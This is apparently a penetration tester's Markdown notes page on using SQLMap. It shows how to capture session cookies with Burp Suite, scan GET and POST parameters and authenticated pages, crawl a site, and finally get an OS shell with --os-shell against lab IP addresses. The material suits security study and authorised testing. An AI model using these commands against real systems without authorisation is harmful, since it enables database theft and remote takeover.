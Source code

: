 # SQLMap
> SQLmap is an open-source tool used in penetration testing to detect and exploit SQL injection flaws. SQLmap automates the process of detecting and exploiting SQL injection. SQL Injection attacks can take control of databases that utilize SQL.

Some websites will have SQL databases connected to them.
- Often a db is used to provide dynamic content and give the user some persistence across sessions.
- WordPress is a common site application that uses a db to store content and user data. 
- When a web application allows user input that interacts with the db, we can attack that.

## Help

[manpage](https://manpages.org/sqlmap) | [cheat sheet](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap) | [important commands](https://www.infosecinstitute.com/resources/penetration-testing/important-sqlmap-commands/)

```
sqlmap -h
# This give you basic help (with usage syntax)

sqlmap -hh
# Advanced help
```

## Obtain Cookie & Parameters

You will need to provide a cookie to the sqlmap in order for it to find vulnerability. The reason why we have to provide a cookie is because of authentication.
- To grab the cookie, we can intercept any request in Burp Suite & get it from there.
- Or you can install an extension for your web browser called `cookie-editor`: [chrome](https://chrome.google.com/webstore/detail/cookie-editor/hlkenndednhfkekhgcdicdfddnkalmdm) or [firefox](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/)
- The cookies in HTTP messages of requests are usually set the following way: `PHPSESSID=7u6p9qbhb44c5c1rsefp4ro8u1`

1. Open up Burp Suite, go to Proxy, turn on Intercept
2. Open Firefox browser and set proxy to Burp (FoxyProxy)
3. Open target website (web page)
4. In Burp you should have intercepted the request.
5. In that request should be a line "Cookie: ..."
6. This is also how you would grab the parameters you want to test (e.g., username, password, id, etc.)

## General Syntax & Example

```
sqlmap -u "http://[target ip]/[php line from Burp GET request]" --cookie "[PHPSESSIONID...security_level=0" -p title
# or include the parameter in your url (just copy from the url in the browser); e.g., "search" as below
sqlmap -u "http://10.129.166.104/dashboard.php?search=whatever" --cookie="PHPSESSID=gtn7bvir60u6kq78qljr4dhn29"
```
- `- u`: Target URL (e.g. "http://www.site.com/vuln.php?id=1")  
- `--cookie`: HTTP Cookie header value 
- `-p`: Testable parameter(s) [we took "title" from the PHP value in the URL; that's what we want to test]

Run that. It takes a while. Results should give you some things to try out. 

The "Payload:" items are what you can copy and paste into Burp's Repeater.

## GET request
```
sqlmap -u http://site-to-test.com/test.php?id=1 -p id
# or
sqlmap -u http://site-to-test.com/test.php?id=1*
```
- `-u`: URL to scan
- `-p`: parameter to scan
- `*`: Parameter to scan (if -p switch is not provided)

## POST request

We can provide the data being passed in the POST request body to scan by the SQLMap tool.
```
sqlmap -u http://site-to-test.com/admin/index.php --data="user=admin&password=admin" -p user --data = POST data
```

Another way is to copy the Burp request into a file and pass the same to SQLMap.
```
sqlmap -r <path to the request file>
```

## POST Login Pages

Post login pages are authorized by the cookie header, which is passed in the HTTP header of a GET/POST request. To scan the post login page(s), we have to provide the valid cookie to SQLMap.
- Example: (note: `/admin/index.php?id=1` is a POST login page)
```
sqlmap -u http://192.168.202.163/admin/index.php?id=1 --cookie="cookie value"
```

## Crawl

Crawl is an important option which allows the SQLMap tool to crawl the website, starting from the root location. The depth to crawl can be defined in the command.

```
sqlmap -u http://192.168.202.160/ --crawl=1
```

## Exploit with `--os-shell`

Just add `--os-shell` on the end of your successful search command (see above): 
```
sqlmap -u "http://10.129.166.104/dashboard.php?search=whatever" --cookie="PHPSESSID=gtn7bvir60u6kq78qljr4dhn29" --os-shell
```
